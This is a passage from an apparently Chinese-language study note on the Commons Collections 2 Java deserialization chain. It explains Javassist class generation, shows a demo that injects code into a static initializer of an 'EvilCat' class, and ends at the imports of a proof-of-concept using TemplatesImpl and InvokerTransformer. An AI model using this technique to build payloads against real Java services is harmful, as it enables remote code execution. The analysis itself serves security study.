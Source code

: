 - static ClassPool getDefault()：返回默认的ClassPool，一般通过该方法创建我们的ClassPool；
- ClassPath insertClassPath(ClassPath cp)：将一个ClassPath对象插入到类搜索路径的起始位置；
- ClassPath appendClassPath：将一个ClassPath对象加到类搜索路径的末尾位置；
- CtClass makeClass：根据类名创建新的CtClass对象；
- CtClass get(java.lang.String classname)：从源中读取类文件，并返回对CtClass 表示该类文件的对象的引用；
### CtClass
CtClass类表示一个class文件，每个CtClass对象都必须从ClassPool中获取
常用方法：

- void setSuperclass(CtClass clazz)：更改超类，除非此对象表示接口；
- byte[] toBytecode()：将该类转换为类文件；
- CtConstructor makeClassInitializer()：制作一个空的类初始化程序（静态构造函数）；
### 示例代码
```java
package com.myproject;
import javassist.*;

public class TestJavassist {
    public static void createPerson() throws Exception{
        //实例化一个ClassPool容器
        ClassPool pool = ClassPool.getDefault();
        //新建一个CtClass，类名为Cat
        CtClass cc = pool.makeClass("Cat");
        //设置一个要执行的命令
        String cmd = "System.out.println(\"javassit_test succes!\");";
        //制作一个空的类初始化，并在前面插入要执行的命令语句
        cc.makeClassInitializer().insertBefore(cmd);
        //重新设置一下类名
        String randomClassName = "EvilCat" + System.nanoTime();
        cc.setName(randomClassName);
        //将生成的类文件保存下来
        cc.writeFile();
        //加载该类
        Class c = cc.toClass();
        //创建对象
        c.newInstance();
    }

    public static void main(String[] args) throws Exception {
        createPerson();
    }
}

```
 新生成的类是这样子的，其中有一块static代码；  
![image.png](./Commons Collection2 分析.assets/2023_05_19_10_37_19_Z49RiqS1.png)
当该类被实例化的时候，就会执行static里面的语句；
在ysoserial的cc2中引入了 TemplatesImpl 类来进行承载攻击payload，需要用到javassist；
### POC
```java
package com.myproject;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.*;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.InvokerTransformer;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
```